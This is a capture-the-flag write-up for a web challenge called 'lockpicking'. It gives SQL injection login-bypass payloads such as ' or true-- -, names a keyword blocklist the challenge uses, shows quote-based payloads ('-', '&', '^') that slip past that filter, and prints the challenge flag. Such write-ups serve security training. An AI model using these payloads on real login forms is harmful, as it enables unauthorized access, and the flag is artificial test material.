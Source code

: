 # 『lockpicking』
> I just made a vault to store my treasured things, it should be very secure right?

10.4.79.68:20004

author: anarchistx

# 『The challenge』

We were given this template:

<img width="1898" height="913" alt="image" src="https://github.com/user-attachments/assets/5dcae26d-cf86-416d-a3d0-679fe471febd" />

Seems it is `SQL injection`, so lets solve!

# 『Solving challenge』
> Solve by: Lylera_

So this challenge is same as this one ([click me](https://github.com/Lunalight-Yui/CTF/tree/main/2025/HCS/Web%20Exploit/Lockpicking)). To bypass this one, use this:

```
Username: admin
Password: ' or true-- -
```

or

```
Username: ' or true--
Password: ' or true--
```

here the result:

<img width="1204" height="915" alt="image" src="https://github.com/user-attachments/assets/5e20c013-a171-4838-8f4e-1e3a9f5f7095" />

There are blocklist for this continue vault. The blocklist `or, and, union, select, from, where, information_schema, --, #`.

We can't use like `or, and, union` right? nope. we can use this: `'-'` to bypass a simple way. Use that we're given the flags

Or you want something else, use this list:

```
'&'
'^'
'*'
```

# 『Flag』

So here the result:

<img width="563" height="614" alt="image" src="https://github.com/user-attachments/assets/3d9a1ed8-dcf6-4877-934f-964e3a414046" />

```
Flag: compit{d1d_y0u_just_unl0ck_th1s_v4ult?_c0ngr4tz_th3n_y0u_th13f}
```
